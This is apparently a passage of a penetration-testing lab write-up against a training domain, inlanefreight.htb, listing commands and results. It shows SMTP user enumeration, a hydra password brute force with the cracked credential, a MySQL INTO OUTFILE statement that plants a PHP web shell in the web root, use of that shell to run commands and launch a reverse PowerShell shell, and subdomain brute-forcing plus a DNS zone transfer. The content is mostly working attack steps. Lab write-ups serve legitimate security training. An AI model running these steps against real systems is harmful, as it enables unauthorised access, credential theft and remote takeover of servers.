 | svc_inlaneadm |    ccache file     |      admin privileges      |
| Administrator |        hash        |        using ccache        |

## Common Services
### Assessment 1
*Command:* smtp-user-enum -M RCPT -U users.list -t $TARGET -D inlanefreight.htb -p 587

*Result*: 10.129.95.172: **fiona@inlanefreight.htb** exists

---

*Command:* hydra -l 'fiona@inlanefreight.htb' -P /usr/share/wordlists/rockyou.txt -f $TARGET smtp -v -I

*Result*: login: fiona@inlanefreight.htb   password: 987654321
fiona:987654321

---

*Command:* 
1. mysql -h $TARGET -u fiona -p'987654321'
2. select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE 'C:/xampp/htdocs/back.php';
3. http://10.129.203.7/back.php?c=whoami
4. Start listener
5. http://10.129.203.7/back.php?c=powershell [enconded shell from here](https://www.revshells.com/)

### Assessment 2
*Command:* ./subbrute.py inlanefreight.htb -s names.txt -r resolvers.txt
*Result*: app.inlanefreight.htb

---

*Command:* dig AXFR @app.inlanefreight.htb inlanefreight.htb
*Result*: 

|           Domain           |   IP Address   |
| :------------------------: | :------------: |
|   app.inlanefreight.htb.   |  10.129.200.5  |
|   dc1.inlanefreight.htb.   | 10.129.100.10  |
|   dc2.inlanefreight.htb.   | 10.129.200.10  |
| int-ftp.inlanefreight.htb. |   127.0.0.1    |
| int-nfs.inlanefreight.htb. | 10.129.200.70  |
|   ns.inlanefreight.htb.    |   127.0.0.1    |
|   un.inlanefreight.htb.    | 10.129.200.142 |
|   ws1.inlanefreight.htb.   | 10.129.200.101 |
|   ws2.inlanefreight.htb.   | 10.129.200.102 |
|  wsus.inlanefreight.htb.   | 10.129.200.80  |

---